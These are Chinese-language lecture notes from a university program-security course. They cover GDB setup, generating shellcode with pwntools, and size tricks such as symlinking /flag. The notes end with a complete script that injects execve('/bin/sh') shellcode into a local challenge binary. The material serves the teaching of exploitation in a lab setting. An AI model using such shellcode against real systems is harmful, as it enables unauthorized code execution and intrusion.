










# 3：程序安全


## 概述

在本节课中，我们将学习程序安全的核心概念，特别是与shellcode编写、调试和优化相关的技术。我们将探讨如何高效地生成和测试shellcode，如何使用工具进行调试，以及一些实用的技巧来绕过常见限制。


---

## 课程内容

### 课程回顾与期望

上一讲我们介绍了课程的基本框架和期望。本节中，我们来看看当前的学习进展和一些常见问题。



课程的现实情况是，如果你认为这学期会很轻松，那可能并非如此。本课程要求扎实的基础和持续的投入。如果你在CSE 365课程中学到的内容有所遗忘，现在复习还为时不晚。许多学生在这个阶段会遇到困难，这是完全正常的。


关于寻求帮助，我们鼓励大家提问。你可以通过Discord、办公时间或观看预先录制的讲座视频来获取帮助。然而，对于已经详细解答过的问题，我可能会直接引用相关视频或资料，而不是重复讲解。


### 近期事件与漏洞赏金

最近，平台出现了一个安全漏洞，导致所有用户都可以通过执行`cat flag`命令获取挑战的flag。这个问题被一位同学发现并负责任地报告了。

根据课程大纲，我们设有漏洞赏金计划。如果你发现基础设施中的漏洞并负责任地报告，根据漏洞的影响程度，你可以获得课程总成绩1%到25%的额外学分。这次报告的漏洞影响较大，报告者将获得相应的额外学分。


### 工具与环境的设置

为了高效地进行安全研究和漏洞利用，我们需要配置合适的工具和环境。本节中，我们来看看如何设置GDB以获得更好的调试体验。






首先，在你的家目录（`/home/hacker`）下创建一个名为`.gdbinit`的文件。这个文件用于配置GDB的启动选项。


以下是`.gdbinit`文件的一个示例配置：

```bash
# 设置汇编语法为Intel格式（推荐）
set disassembly-flavor intel




# 加载gef插件（如果已安装）
source /opt/gef/gef.py
```




通过这个配置，GDB将使用更易读的Intel语法显示汇编代码，并加载gef插件，提供增强的调试界面。

### Shellcode的生成与调试

在程序安全中，shellcode是一段用于利用漏洞的机器代码。高效地生成和调试shellcode是成功的关键。

我们可以使用Python的`pwntools`库来快速生成和测试shellcode。以下是一个简单的示例：



```python
from pwn import *

# 设置架构上下文
context.arch = 'amd64'

# 生成shellcode
shellcode = asm('''
    mov rax, 0x1337
    mov rdi, 0xbeef
''')

# 打印shellcode的字节和反汇编结果
print("Shellcode bytes:", shellcode)
print("Disassembly:")
print(disasm(shellcode))
```




使用`pwntools`的`asm`函数，我们可以直接将汇编指令转换为机器码。通过`disasm`函数，我们可以查看对应的反汇编结果，便于调试和优化。

### 调试Shellcode

调试shellcode时，我们可能希望直接在GDB中运行它，以观察其行为。以下是如何在GDB中调试shellcode的示例：



```python
# 使用GDB调试shellcode
gdb.debug('./challenge', '''
    break main
    continue
''')
```

通过这种方式，我们可以在GDB中启动挑战程序，并在适当的位置设置断点，逐步执行shellcode，观察内存和寄存器的变化。


### 优化Shellcode的策略

编写shellcode时，除了选择合适的指令外，还可以通过其他策略来优化其大小和效果。以下是几种常见的优化策略：

1.  **使用更短的路径引用文件**：例如，通过创建符号链接来缩短文件路径，减少shellcode中需要包含的字节数。
2.  **利用系统调用**：选择更少的系统调用来完成相同的任务。例如，使用`chmod`改变文件权限，而不是`open`、`read`、`write`的组合。
3.  **避免特定字节**：某些挑战可能过滤特定字节（如`0x48`）。通过选择不同的指令或寄存器，可以避免这些字节。



### 符号链接的使用

符号链接是文件系统中的一个指针，指向另一个文件或目录。在shellcode中，我们可以利用符号链接来缩短文件路径，从而减少shellcode的大小。

创建符号链接的命令如下：

```bash
ln -s /target/file link_name
```

例如，创建一个指向`/flag`的符号链接：

```bash
ln -s /flag a
```

这样，在shellcode中，我们可以通过路径`a`来访问`/flag`，而不是完整的路径。

### 使用Python进行快速迭代

Python的`pwntools`库不仅可以帮助我们生成shellcode，还可以用于快速迭代和测试。以下是一个完整的示例，展示如何生成shellcode并将其发送到挑战程序：

```python
from pwn import *

# 设置架构
context.arch = 'amd64'

# 生成shellcode
shellcode = asm('''
    mov rax, 0x3b        # execve的系统调用号
    lea rdi, [rip+binsh] # /bin/sh的地址
    xor rsi, rsi         # argv = NULL
    xor rdx, rdx         # envp = NULL
    syscall
binsh:
    .string "/bin/sh"
''')

# 启动挑战进程
p = process('./challenge')
p.send(shellcode)
p.interactive()
```

通过这种方式，我们可以快速修改shellcode，测试其效果，从而高效地解决挑战。

---



## 总结

本节课中，我们一起学习了程序安全中的几个关键概念和技术。我们回顾了课程期望，讨论了近期发现的漏洞及其处理方式。我们配置了GDB调试环境，学习了如何使用`pwntools`生成和调试shellcode。此外，我们还探讨了优化shellcode的策略，如使用符号链接和选择合适的系统调用。最后，我们通过Python实现了快速迭代和测试，为后续的挑战打下了坚实的基础。